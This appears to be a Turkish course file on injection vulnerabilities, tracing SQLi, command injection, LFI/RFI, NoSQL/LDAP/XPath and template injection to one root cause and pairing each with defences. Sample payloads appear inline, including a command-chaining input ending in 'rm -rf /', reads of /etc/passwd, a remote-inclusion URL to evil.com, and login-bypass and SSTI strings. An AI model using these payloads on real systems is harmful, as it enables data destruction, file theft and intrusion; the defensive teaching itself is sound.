


# 🧬 Enjeksiyon Aileleri ve Ortak Kök Neden

SQLi ve XSS'i ayrı ayrı gördük. Bu dosya onları ve akrabalarını (command injection, LFI/RFI, LDAP/NoSQL/template injection) tek bir çatı altında birleştirir. Amaç: **tek bir kök nedeni** görmek, çünkü onu gören her yeni enjeksiyon türünü hızla anlar ve savunmasını genelleştirir.

> Kardeş dosyalar: [sqli.md](sqli.md), [xss.md](xss.md). Bellek düzeyindeki kardeşi: [bellek-zafiyetleri-giris.md](../../03-isletim-sistemi-ici/bellek-zafiyetleri-giris.md).

---

## 1. Tek kök neden: kod ile verinin karışması

Tüm enjeksiyon zafiyetlerinin özü **tek cümledir:**

> **Saldırganın kontrol ettiği "veri", bir yorumlayıcı tarafından "kod/komut" olarak yorumlanıyor.**

Bir yorumlayıcı (interpreter) — SQL motoru, işletim sistemi shell'i, tarayıcı, LDAP sunucusu, şablon motoru — kendisine gelen metni ayrıştırıp çalıştırır. Eğer uygulama, kullanıcı verisini bu metnin **yapısına** karıştırırsa, kullanıcı o yapıyı değiştirebilir.



---

## 2. Aile üyeleri

### Command Injection (OS komut enjeksiyonu)
Uygulama, kullanıcı girdisini bir **işletim sistemi komutuna** karıştırırsa, saldırgan ek komut ekleyebilir.
```python
# ZAFİYETLİ — girdi doğrudan shell komutuna
ip = request.form['ip']
os.system(f"ping -c 1 {ip}")     # girdi: 8.8.8.8; rm -rf /  → iki komut çalışır!
```
`8.8.8.8; cat /etc/passwd` → `;`, `|`, `&&`, `$(...)` gibi shell metakarakterleriyle ek komut çalıştırılır. En yüksek etkili tür — genelde doğrudan **RCE** (uzaktan kod çalıştırma).

**Önleme:**
```python
# GÜVENLİ — shell'i hiç kullanma; argümanları liste olarak, shell=False ile geçir
import subprocess
subprocess.run(["ping", "-c", "1", ip], shell=False, timeout=5)
# + girdi doğrulama: ip gerçekten IP formatında mı?
```

### LFI / RFI (Local/Remote File Inclusion) ve Path Traversal
Uygulama, kullanıcı girdisiyle **dosya yolu** oluşturursa:
```
/goster?sayfa=hakkinda.php        → normal
/goster?sayfa=../../../../etc/passwd   → LFI (yerel dosya okuma)
/goster?sayfa=http://evil.com/shell.txt → RFI (uzak kod dahil etme → RCE)
```
- **LFI:** Yerel hassas dosyaları okuma (`/etc/passwd`, log, config); log poisoning ile RCE'ye tırmanabilir.
- **RFI:** Uzaktan kod dahil etme → doğrudan RCE (modern yapılandırmalarda çoğunlukla kapalı).
- **Path traversal:** `../` ile dizin dışına çıkma.

**Önleme:** Dosya adını **allow-list**'ten seç (kullanıcı girdisini yola koyma), `../` normalize et, taban dizini zorla.

### LDAP / NoSQL / XPath Injection
Aynı desen farklı yorumlayıcılarda:
- **NoSQL (MongoDB):** `{"user": {"$ne": null}}` ile kimlik atlatma.
- **LDAP:** `*)(uid=*` ile filtre manipülasyonu.
- **XPath:** XML sorgusu manipülasyonu.

### SSTI (Server-Side Template Injection)
Kullanıcı girdisi bir **şablon motoruna** (Jinja2, Twig) kod olarak geçerse:
```
{{7*7}}  → 49 dönerse şablon enjeksiyonu var → {{config}} → RCE'ye tırmanır
```

---

## 3. Nüans: neden hepsi aynı savunmayı paylaşır?

Farklı yorumlayıcılar ama **aynı savunma felsefesi:**



| Yorumlayıcı | "Ayırma" savunması |
|-------------|--------------------|
| SQL | Parametreli sorgu (prepared statement) |
| OS shell | `subprocess` + argüman listesi, `shell=False` |
| Tarayıcı (HTML) | Output encoding / `textContent` / güvenli framework |
| Dosya sistemi | Allow-list dosya seçimi |
| Şablon motoru | Kullanıcı girdisini şablon **derlemesine** sokma |

> **Kritik ders — neden kara liste (blacklist) başarısız olur:** Kötü desenleri ("`OR`", "`<script>`", "`;`", "`../`") engellemeye çalışmak, saldırganın sonsuz atlatma yüzeyine (kodlama, büyük/küçük harf, alternatif söz dizimi) karşı **her zaman kaybeder**. Doğru yaklaşım: ya kod/veriyi yapısal olarak ayır (parametreleme) ya da **izin verileni** tanımla (allow-list). "Neyin kötü olduğunu" değil, "neyin iyi olduğunu" listele.

---

## 4. Saldırı–savunma kesişimi (bütünsel)

- Bir pentester bir uygulamaya baktığında, "girdi nereye gidiyor?" diye sorar: bir sorguya mı (SQLi), bir komuta mı (cmd injection), sayfaya mı (XSS), dosya yoluna mı (LFI)? Kök neden aynı olduğu için **test refleksi de aynıdır**: özel karakter (`'`, `;`, `<`, `../`, `{{`) koy, davranış değişikliğini gözle.
- Bir savunmacı/geliştirici için ödül daha büyük: kök nedeni içselleştiren biri, hiç duymadığı yeni bir enjeksiyon türüyle (yeni bir yorumlayıcı) karşılaşınca bile doğru refleksi (ayır, allow-list, en az ayrıcalık) uygular.
- Bu birleşik bakış, [bellek zafiyetlerine](../../03-isletim-sistemi-ici/bellek-zafiyetleri-giris.md) kadar uzanır: buffer overflow da "veri (girdi) kod (dönüş adresi/komut) gibi yorumlanıyor" temasının bellek katmanındaki hâlidir.

---

## 5. Özet

- **Tek kök neden:** Saldırgan verisinin kod/komut olarak yorumlanması.
- **Aile:** SQLi, command injection, XSS, LFI/RFI, LDAP/NoSQL/XPath, SSTI — hepsi aynı temanın farklı yorumlayıcılardaki hâli.
- **Ortak savunma:** Kod/veriyi **ayır** (parametreleme), **allow-list** ile doğrula, bağlama göre **kodla**, **en az ayrıcalıkla** çalıştır.
- **Altın kural:** Kara liste değil, ayırma + izin listesi.

> **Modül 04 devam:** [../burp-suite-rehberi.md](../burp-suite-rehberi.md) (araç), sonra [../pratik-lab/juice-shop-notlari.md](../pratik-lab/juice-shop-notlari.md) (uygulama).
